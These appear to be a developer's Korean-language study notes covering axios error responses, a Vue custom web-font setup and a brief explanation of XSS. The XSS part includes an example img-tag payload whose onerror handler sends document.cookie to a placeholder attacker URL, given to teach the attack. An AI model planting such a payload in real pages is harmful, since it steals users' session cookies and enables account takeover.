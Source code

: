 응답 객체를 사용하고 싶은 경우 response 필드를 사용하면 된다.

```
.catch(error => { console.log(error) })

>> {data: {…}, status: 401, statusText: "", headers: {…}, config: {…}, …}
```

## Custom Font 사용법

App.vue에

```html
<style>
@font-face {
 font-family: 'NanumBarunGothic';
 font-style: normal;
 font-weight: 300;
 src: url('//cdn.jsdelivr.net/font-nanumlight/1.0/NanumBarunGothicWebLight.eot');
 src: url('//cdn.jsdelivr.net/font-nanumlight/1.0/NanumBarunGothicWebLight.eot?#iefix') format('embedded-opentype'), url('//cdn.jsdelivr.net/font-nanumlight/1.0/NanumBarunGothicWebLight.woff') format('woff'), url('//cdn.jsdelivr.net/font-nanumlight/1.0/NanumBarunGothicWebLight.ttf') format('truetype');
}

.nanumbarungothic * {
 font-family: 'NanumBarunGothic', sans-serif;
}

#app {
  font-family: 'NanumBarunGothic', Courier, monospace;
  -webkit-font-smoothing: antialiased;
  -moz-osx-font-smoothing: grayscale;
}
</style>
```

# 2019-10-15

## 테스트 mock() when()

## 보안 관련 정리

## XSS (Cross-site Scripting)

사용자가 접근하는 html 파일 내부에 스크립트를 넣어 악의적인 기능을 수행.

의도하지 않은 기능 수행이나 사용자의 쿠기, 세션 토큰 등의 민감한 정보를 탈취한다.

```
<img src="#" onerror="location.href('해커가 접근가능한 URL?cookie=' + document.cookie)">
위 태그가 삽입된 페이지를 보는 순간 사용자의 브라우저에서 cookie정보를 가져와 해커 URL로 전송한다.
```
